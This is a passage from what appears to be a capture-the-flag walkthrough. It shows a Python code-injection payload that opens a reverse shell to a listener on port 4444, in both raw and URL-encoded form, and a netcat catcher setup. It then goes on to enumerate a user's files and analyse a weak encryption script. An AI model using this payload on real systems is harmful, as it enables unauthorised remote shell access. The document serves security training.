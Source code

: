 This was what I used:

```python
';import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('127.0.0.1',4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);foo='
```

In order to exploit this, you'd want to get a netcat "catcher" running, then send the URL-Encoded version through the browser (or curl):

```
http://10.10.10.168:8080/%27%3Bimport%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%27127.0.0.1%27%2C4444%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3B%20os.dup2%28s.fileno%28%29%2C2%29%3Bp%3Dsubprocess.call%28%5B%27%2Fbin%2Fsh%27%2C%27-i%27%5D%29%3Bfoo%3D%27
```

The page will load and hang forever, but as long as you were listening appropriately on your end you now have your reverse shell.

```
$ whoami
www-data
```

## Step II: Elevation to User
Foothold is usually the hardest part of any box. To an extent, though, I never feel all the way secure until you get from reverse shell to user shell. Reverse shells are usually bear bones and more than a little shaky.

While I do have a few enumeration scripts I use when I'm wedged, I often find it useful to `ls /home` looking for users, which in this case reveals a single user, Robert. As it happens, we also have some good permissions in his home directory. We can read anything we want to besides the user flag, `user.txt`. What we find is:
1. A directory called BetterSSH, containing a single python script which I'll go over in more detail later.
2. A `passwordreminder.txt` file consisting of high UTF-8 characters.
3. An `out.txt` file consisting of UTF-8 characters, some of which fall on sparse non-printing ranges.
4. A `check.txt` file consisting of a string that claims will match `out.txt` if encrypted with the correct key.
5. Another badly-written script, `SuperSecureCrypt.py`

### Exploiting SuperSecureCrypt
The challenge here is pretty obvious. We have a cryptographic algorithm (to be generous), two files (one of which claims to encrypt to the other), and a third file that we actually want to decrypt.

Much like the server, there's a pretty obvious flaw in the crypto algorithm:

```python
def encrypt(text, key):
    keylen = len(key)
    keyPos = 0
    encrypted = ""
    for x in text:
        keyChr = key[keyPos]
        newChr = ord(x)
        newChr = chr((newChr + ord(keyChr)) % 255)
        encrypted += newChr
        keyPos += 1
        keyPos = keyPos % keylen
    return encrypted

def decrypt(text, key):
    keylen = len(key)
    keyPos = 0
    decrypted = ""
```